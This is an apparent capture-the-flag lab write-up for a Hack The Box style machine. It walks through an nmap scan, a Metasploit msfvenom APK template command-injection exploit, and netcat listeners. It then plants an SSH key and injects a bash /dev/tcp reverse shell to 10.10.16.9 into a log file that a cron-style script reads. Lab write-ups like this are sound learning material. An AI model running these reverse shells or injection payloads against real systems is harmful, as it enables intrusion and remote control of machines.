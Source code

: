 First we ran an nmap scan on the system:
```
nmap -sV -sC -T4 10.10.10.226
```
we found an open port 5000 and then browsed to the endpoint and found a website that allowed us to upload files.
using search sploit found out that msfconsole could be used to generate a payload that could exploit the machine

commands
```
use exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection
set lhost <attacker ip>
set lport 4444
exploit
```
the exploit did not work with the python reverse shell so we switched to a netcat reverse  shell and it generated an apk file.
We then uploaded the file to the website and opened up a netcat listener ```nc -nlvp 4444```

We successfully gained user access to the machine and then cd'd into the .ssh folder and downloaded an authorized_keys file generated with ```ssh-keygen -f rsa``` and sent it with netcat ```nc -w 3 <victim ip> 1234 < authorized_keys``` recieved it with ```nc -nlvp 1234 > authorized_keys```.

after sshing in I gained access to the pwn folder and found a script called "scanlosers.sh" that called to a file called "~/logs/hacker".

we created a one liner reverse shell to connect to user pwn successfully.

```
echo "  ;/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.9/4444 0>&1' #" >> hackers
```

